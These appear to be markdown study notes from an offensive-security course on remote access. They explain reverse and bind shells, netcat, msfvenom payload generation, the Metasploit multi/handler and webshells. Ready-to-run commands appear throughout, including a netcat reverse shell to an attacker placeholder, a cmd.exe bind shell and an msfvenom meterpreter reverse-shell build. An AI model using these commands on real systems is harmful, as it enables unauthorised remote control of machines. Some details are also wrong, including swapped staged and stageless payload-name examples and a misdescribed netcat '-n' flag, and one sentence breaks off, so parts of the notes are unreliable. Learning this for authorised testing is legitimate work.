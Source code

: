 #### Remote system interaction
* `reverse` shell - when we force the remote server to connect to our server.
	* the listener runs on the attacker's machine
	* the target connects to the attacker's machine with a shell
	* the attacker doesn't need to know the victim's IP
* `bind` shell - when we force remote server to open up a port which we can connect to in order to execute further commands. 
	* the listener on the server computer
	* the attacker need to know the IP address of the victim
	


### Tools
- Netcat
- Socat
- Metasploit - multi/handler
- Msfvenom

### simulating Reverse vs Bind shell
#### Reverse shell
Start listening on the attacker side
```zsh
sudo nc -lvnp <port>
```

Initiating connection from target side
```zsh
nc <attacker-ip> <port> -e /bin/bash
```

> the `-e` flag, which stands for `execute` instructs `nc` to execute the command that follows it after establishing a connection.

#### Bind shell
On the target machine (assume we're on the window machine - that's why we included `cmd.exe` file instead)
```zsh
nc -lvnp <port> -e "cmd.exe"
```

Connect to that service form the attacker `pc`
```zsh
nc <targets-ip> <port>
```


### Netcat
Time to explain the `-lvnp` thing
 - l - listening
 - v - verbose
 - n - host name resolution, `DNS`
 - p - port specification

### msfvenome
- used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal `shellcode` when developing something like a Buffer Overflow exploit.
syntax:
```zsh
msfvenom -p <PAYLOAD> <OPTIONS>
```

#### Staged vs Stageless
- _**Staged**_ payloads are sent in two parts. The first part is called the _stager_. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually 
    
- _**Stageless**_ payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

#### payload naming convention 
```
<os>/<arch>/<payload>
```

- __ is used for ``stageless`` payloads. `windows/shell/bind_hidden_tcp`
- / is used for staged ones. ` windows/shell_hidden_bind_tcp `

> to list all available payloads we can use this `msfvenom --list payloads`

Example:
>  to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is `elf` and the output filename should be `shell`
>  we use the following command ...

```zsh
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443
```

### Metasploit multi/handler
- tool for catching reverse shells. 
*how to use?*
1. open metasploit `msfconsole`
2. type `use multi/handler` and press enter
3. `set PAYLOAD <payload>
4. `set LHOST <listen-address>`
5. `set LPORT <listen-port>`
6. `exploit -j`

### webshells
- a script that runs inside a webserver, which executes code on the server.
- after uploading vulnerability, we can execute that file directly on the server with the command of our desire in the `url`
>[!Demo] 


